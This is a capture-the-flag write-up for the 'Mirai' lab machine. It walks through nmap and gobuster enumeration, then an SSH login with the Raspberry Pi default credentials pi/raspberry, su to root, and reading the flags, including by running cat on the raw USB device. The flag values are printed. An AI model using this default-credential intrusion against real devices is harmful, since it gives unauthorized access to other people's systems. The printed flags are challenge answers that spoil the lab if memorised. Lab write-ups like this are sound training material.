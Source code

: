 # Mirai

### Challenge: FullPWN

### Tools: nmap, gobuster

### Vulnerabilities: Pi-Hole, Default credentials

Nmap shows us there is a webpage open.

The page is blank but a connection is established.

```console
└──╼ [★]$ nmap -sC -A -sV 10.129.50.166
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-30 16:29 BST
Nmap scan report for 10.129.50.166
Host is up (0.053s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: lighttpd/1.4.35
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.60 seconds
```

Running gobuster shows an admin and versions page we can check out.

```console
└──╼ [★]$ gobuster dir -u 10.129.50.166 -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.50.166
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/30 16:33:18 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 0] [--> http://10.129.50.166/admin/]
/versions             (Status: 200) [Size: 18]                                 
                                                                               
===============================================================
2022/08/30 16:33:31 Finished
===============================================================
```
Curl also reveals what the blank page is.

```console
└──╼ [★]$ curl -I 10.129.50.166
HTTP/1.1 404 Not Found
X-Pi-hole: A black hole for Internet advertisements.
Content-type: text/html; charset=UTF-8
Date: Tue, 30 Aug 2022 15:33:42 GMT
Server: lighttpd/1.4.35
```
Here we have the pi-hole admin page. This is our first hint that the page is being ran on a raspberry pi. Lets test some default credentials using the ssh port that nmap found.

![image](https://user-images.githubusercontent.com/105310322/187496695-09c93f38-309e-4c34-b6bf-847691968ea7.png)

A quick google search shows that the default credentials for a raspberry pi are User=pi and Pass=raspberry

Boom we are in pretty quickly!

```console
└──╼ [★]$ ssh pi@10.129.50.166
The authenticity of host '10.129.50.166 (10.129.50.166)' can't be established.
ECDSA key fingerprint is SHA256:UkDz3Z1kWt2O5g2GRlullQ3UY/cVIx/oXtiqLPXiXMY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.50.166' (ECDSA) to the list of known hosts.
pi@10.129.50.166's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ whoami
pi
pi@raspberrypi:~ $ 
```
Full sudo power!? but before I tried that, I did su root with the same default password.

EASY DAY! Already got root and the user flag!

```console
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL

pi@raspberrypi:~ $ su root
Password: 
root@raspberrypi:/home/pi# 
```
```console
root@raspberrypi:/home/pi/Desktop# cat user.txt
ff837707441b257a20e32199d7c8838d
```

It was too good to be true :(
At least we got our next hint :)

The root.txt is hiding in a usb stick so lets see if we can find it.

```console
root@raspberrypi:~# cat root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
root@raspberrypi:~# 
```
lsblk shows us where we can find the usbstick however there is not root.txt found in /media

The drive is located at /dev/sdb

```console
root@raspberrypi:/# lsblk
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
sda      8:0    0   10G  0 disk 
├─sda1   8:1    0  1.3G  0 part /lib/live/mount/persistence/sda1
└─sda2   8:2    0  8.7G  0 part /lib/live/mount/persistence/sda2
sdb      8:16   0   10M  0 disk /media/usbstick
sr0     11:0    1 1024M  0 rom  
loop0    7:0    0  1.2G  1 loop /lib/live/mount/rootfs/filesystem.squashfs
root@raspberrypi:/# 
```
After using cat on sdb if pops alot of incomprehensible code but at the bottom we can see a string of characters resembling our root flag!

```console
root@raspberrypi:/dev# cat sdb
�|}*,.������+-���3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
root@raspberrypi:/dev# 
```

If using cat to read the sdb file did not work then my next option would have been to extract or mount the usb to try and read the files but luckily the important information was all there.

GG!
